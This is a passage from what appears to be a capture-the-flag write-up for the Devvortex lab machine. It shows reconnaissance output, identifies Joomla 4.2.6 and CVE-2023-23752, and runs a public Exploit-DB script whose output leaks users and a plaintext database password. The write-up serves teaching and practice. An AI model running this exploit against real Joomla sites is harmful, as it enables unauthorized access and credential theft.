 ```

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://dev.devvortex.htb/robots.txt 

Interesting path found from robots.txt
http://dev.devvortex.htb/joomla/administrator/
http://dev.devvortex.htb/administrator/
http://dev.devvortex.htb/api/
http://dev.devvortex.htb/bin/
http://dev.devvortex.htb/cache/
http://dev.devvortex.htb/cli/
http://dev.devvortex.htb/components/
http://dev.devvortex.htb/includes/
http://dev.devvortex.htb/installation/
http://dev.devvortex.htb/language/
http://dev.devvortex.htb/layouts/
http://dev.devvortex.htb/libraries/
http://dev.devvortex.htb/logs/
http://dev.devvortex.htb/modules/
http://dev.devvortex.htb/plugins/
http://dev.devvortex.htb/tmp/


[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found


Your Report : reports/dev.devvortex.htb/
```

The tool provides us the valuable information of the specific version that is running `Joomla 4.2.6`, so we can search if there any associated CVEs, after researching the version we find it has a recent [CVE](https://nvd.nist.gov/vuln/detail/CVE-2023-23752).
Now that we know that there is a vulnerability we can use, we search for the associated [exploit]( https://www.exploit-db.com/exploits/51334 ).
After downloading the exploit we run it as `ruby 51334.rb http://dev.devvortex.htb`
```
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```